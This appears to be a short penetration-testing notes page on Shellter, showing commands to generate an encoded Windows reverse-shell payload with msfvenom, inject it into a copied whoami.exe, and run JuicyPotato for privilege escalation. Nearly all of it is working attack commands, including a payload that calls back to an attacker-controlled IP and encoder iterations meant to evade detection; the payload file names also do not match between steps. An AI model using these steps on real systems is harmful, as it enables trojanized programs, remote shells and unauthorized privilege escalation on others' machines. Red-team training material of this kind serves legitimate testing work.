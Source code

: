 ```yaml
---
sidebar_position: 3
---
```


# Shellter

Shellter is a dynamic shellcode injection tool, primarily used to inject payloads into Windows executables for red teaming and penetration testing.

## Installation

```bash
sudo apt install shellter
dpkg --add-architecture i386
apt update && apt install wine32
shellter
```

## Basic Usage

1. Prepare your working directory and target executable:

```bash
cd ~/privesc/rs
cp ../bin/whoami.exe .
```

2. Generate a payload (example: reverse shell) with msfvenom:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.177 LPORT=444 -e x86/shikata_ga_nai -i 7 -f raw > re.bin
```

3. Run Shellter and follow the prompts:

```bash
shellter
# Choose Operation Mode - Auto/Manual (A/M/H): A
# PE Target: /home/kali/privesc/rs/whoami.exe
# Enable Stealth Mode? (Y/N/H): N
# Use a listed payload or custom? (L/C/H): C
# Select Payload: /home/kali/privesc/rs/met.bin
# Is this payload a reflective DLL loader? (Y/N/H): N
```

## Related Tools

- Example: Using JuicyPotato for privilege escalation:

```bash
JuicyPotato.exe -t t -p whoami.exe -l 5837
```
